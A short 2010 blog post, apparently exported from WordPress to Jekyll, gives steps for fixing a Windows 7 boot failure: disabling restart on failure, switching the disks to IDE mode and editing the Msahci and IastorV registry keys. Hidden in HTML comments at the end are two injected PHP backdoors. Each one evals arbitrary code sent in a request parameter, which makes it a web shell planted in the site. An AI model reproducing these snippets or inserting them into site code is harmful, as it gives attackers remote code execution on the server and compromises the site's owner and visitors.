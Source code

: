 ```yaml
---
layout: post
title: Windows 7 updated last night and now it won't boot!
date: 2010-05-22 16:37:32.000000000 +00:00
type: post
parent_id: '0'
published: true
password: ''
status: publish
categories:
- Windows
tags: []
permalink: "/2010/05/windows-7-updated-last-night-and-now-it-wont-boot/"
---
```

Start with F8-\>disable restart on failure, if the bluscreen error is 0x7b then switch your hard drives to IDE mode in BIOS, then edit these two registry keys:  
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Msahci  
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\IastorV  
"Start" must have a value of 0 (loaded by kernel), it is probably 3 (manual)  
[More details here](http://support.microsoft.com/kb/922976)

<!-- [insert_php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/insert_php][php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/php] -->

<!-- [insert_php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/insert_php][php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/php] -->


